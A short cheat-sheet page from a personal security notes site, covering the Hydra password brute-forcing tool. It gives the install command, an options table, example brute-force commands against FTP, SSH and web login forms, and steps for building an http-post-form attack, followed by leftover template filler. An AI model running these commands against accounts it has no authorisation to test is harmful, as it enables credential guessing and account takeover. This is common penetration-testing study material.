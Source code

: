 ```yaml
---
title: Hydra
date: 2022-09-10 17:00:00 +500
categories: [Gaining Access]
tags: [kaliapp,bruteforce]     # TAG names should always be lowercase
---
```


![img-description](https://www.kali.org/tools/hydra/images/hydra-logo.svg)

_Link: https://www.kali.org/tools/hydra/_

```bash
sudo apt install hydra
```

# options

| Section | Function |
|-------|--------|
| -t 4| Number of parallel connections per target |
| -l [user]  | Points to the user who's account you're trying to compromise |
| P [path to dictionary] | Points to the file containing the list of possible passwords |

# examples

## ftp
```bash
hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp
```

## web login
```bash
hydra -l <USER> -p <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”
```
## ssh
```bash
hydra -l user -P passlist ip -t 64 ssh
```

# set up the command for web login

![img-description](https://infiniteloginscom.files.wordpress.com/2020/02/image-42.png?w=1013)

## command build

```
With all the information that we have collected now let’s build the hydra command.
Change the <Login page> this value has to start with “/” backspace.
Change <Request body> with the format from the page. We do need to modify the username and password. Replace the failed username with ^USER^ and the failed password with ^PASS^. This change will allow hydra to substitute the values.
Change the <Error Message> with the failed login error message.
Change the <IP Address> with either an IP address or hostname.
Change the <User> with either username or username list.
Change the <Password> with either a password or password list.
Layout of command: hydra -L <USER> -P <Password> <IP Address> http-post-form “<Login Page>:<Request Body>:<Error Message>”
```

<table>
<colgroup>
<col width="30%" />
<col width="70%" />
</colgroup>
<thead>
<tr class="header">
<th>Field</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td markdown="span">First column **fields**</td>
<td markdown="span">Some descriptive text. This is a markdown link to [Google](http://google.com). Or see [some link][mydoc_tags].</td>
</tr>
<tr>
<td markdown="span">Second column **fields**</td>
<td markdown="span">Some more descriptive text.
</td>
</tr>
</tbody>
</table>

<span class="label label-default">Default</span>

